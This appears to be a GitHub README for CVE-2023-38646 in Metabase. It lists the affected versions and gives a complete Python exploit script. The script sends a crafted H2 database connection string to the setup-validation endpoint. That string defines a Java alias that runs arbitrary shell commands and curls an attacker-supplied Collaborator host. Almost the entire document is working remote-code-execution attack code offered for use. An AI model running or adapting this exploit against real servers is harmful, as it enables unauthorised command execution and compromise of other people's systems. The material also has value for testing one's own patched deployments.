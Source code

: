 
## CVE-2023-38646

## 影响版本
Metabase open source 0.46 < 0.46.6.1  
Metabase open source 0.45 < v0.45.4.1  
Metabase open source 0.44 < 0.44.7.1  
Metabase open source 0.43 < 0.43.7.2  
Metabase Enterprise 1.45 < 1.45.4.1  
Metabase Enterprise 1.46 < 1.46.6.1  
Metabase Enterprise 1.44 < 1.44.7.1  
Metabase Enterprise 1.43 < 1.43.7.2  

## python脚本
```
import requests
import argparse
from colorama import Fore, Style
Gcyan = Fore.YELLOW + Style.BRIGHT
Cyan = Fore.CYAN + Style.BRIGHT
STOP = Style.RESET_ALL
logo = '''
   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __ 
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / / 
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \\
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/
                                                            
'''
print(Gcyan + logo + STOP)
print(Cyan + "The PoC Finder!!" + STOP + Gcyan + "   By: 0xRobiul\n" + STOP)


parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", type=str, required=True, help="Target URL.")
parser.add_argument("-t", "--token", type=str, required=True, help="Setup-Token From /api/session/properties .")
parser.add_argument("-c", "--collabrator", type=str, required=True, help="Burp Collabrator Client.")
args = parser.parse_args()

url = args.url + "/api/setup/validate"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "application/json", "Content-Type": "application/json", "Connection": "close"}
payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=0xRobiul " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
attk = requests.post(url, headers=headers, json=payload)

print(Cyan + "Done!! Check Burp Colabrator!!" + STOP)
```

